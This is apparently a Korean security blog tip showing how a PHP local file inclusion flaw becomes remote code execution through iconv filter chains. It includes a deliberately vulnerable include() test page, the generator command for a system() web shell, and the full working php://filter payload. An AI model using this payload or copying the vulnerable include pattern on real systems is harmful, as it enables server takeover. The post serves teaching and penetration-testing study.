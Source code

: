```yaml
---
title: '[Tip] Local file inclusion to RCE using PHP Filters'
author: hoppi
date: 2023-02-17 18:27:00 + 0000
categories: [Tip]
tags: [php, lfi, lfi2rce]
---
```


예전에 유튜브로 [핵더박스 롸업](https://www.youtube.com/watch?v=yW_lxWB1Yd0&t=2430s)을 보다가 발견한 아주 신기한 것을 발견해서 설명하고자 합니다. 제목에서도 알 수 있듯이 LFI를 RCE로 바꿔버리는 엄청난 방법인데 무려 어떤 파일의 생성이나 그 파일에 코드를 쓸 필요가 없습니다. 이 페이로드를 쓰게되면 literal(?)한 문자열, php 웹쉘 코드를 생성할 수 있습니다. 그렇게되면 `include()`의 특성상 이 php 코드를 실행할 수 있게되겠죠.  

간단하게 테스트 페이지를 통해서 해봅시다. (맥북에서 하려고하니 나중에 `Unable to create filter (convert.iconv.UTF8.UTF7)` 이런 오류가 뜨는데 맥에서는 해당 `iconv`를 지원하지 않는 것 같았습니다. 그러므로 VM을 이용하여 리눅스에서 올리는 편이 좋을 것 같습니다. 저는 구름ide를 이용했습니다)  
```php
<h2>Test Page</h2>
<p>include: </p>
<?php include($_GET['page']); ?>
```
{: file='index.php'}
<br/>

```php
<p>Included Page</p>
<?php echo "hi i'm hoppi"; ?>
```
{: file='test.php'}
<br/>

```zsh
php -S 127.0.0.1:4370
```
<br>

이런상황에서 보통 아래처럼 `php wrapper`를 통한 LFI를 하여 소스코드 유출을 할 수가 있죠.  
![wrapper](../../../assets/img/2023-02-17/wrapper.png){: w="700" h="350" }  
<br/>

하지만 [lfi2rce](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)를 이용하면 더 나아가 명령어를 실행할 수 있어집니다.
이 스크립트를 다운받고 아래 명령어를 통해서 웹쉘을 가능하게 하는 페이로드를 생성합니다.  
```zsh
python3 php_filter_chain_generator.py --chain '<?php system($_GET["c"]);?>'
```
<br/>

그러면 아래 사진과 같이 매우 긴 페이로드가 생성됩니다.
![payload](../../../assets/img/2023-02-17/payload.png){: w="700" h="350" }  
<br/>

```plaintext
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
{: file='created payload'}
<br/>

참고로 페이로드 마지막에 넣는 `php://temp`는 정상적으로 실행은 하지만 아무것도 출력하지 않습니다. 한 가지 트릭인 셈이죠. `temp`으로 시작하기만 한다면 `temp1231231`이든 `tempasdasdasd`이든 정상적으로 실행이 됩니다.  
![temp](../../../assets/img/2023-02-17/temp.png){: w="700" h="350" }  
<br/>

생성된 페이로드와 `id`명령어를 넣었더니 정상적으로 RCE가 된 모습을 볼 수 있습니다. 정말 신기하죠???
![rce](../../../assets/img/2023-02-17/rce.png){: w="700" h="350" }  
<br/>

더욱더 자세한 설명은 레퍼런스를 통해서 확인해 볼 수 있습니다.  
<br/>

# Reference
***
- [https://www.youtube.com/watch?v=TnLELBtmZ24](https://www.youtube.com/watch?v=TnLELBtmZ24)
- [https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters)
- [https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)



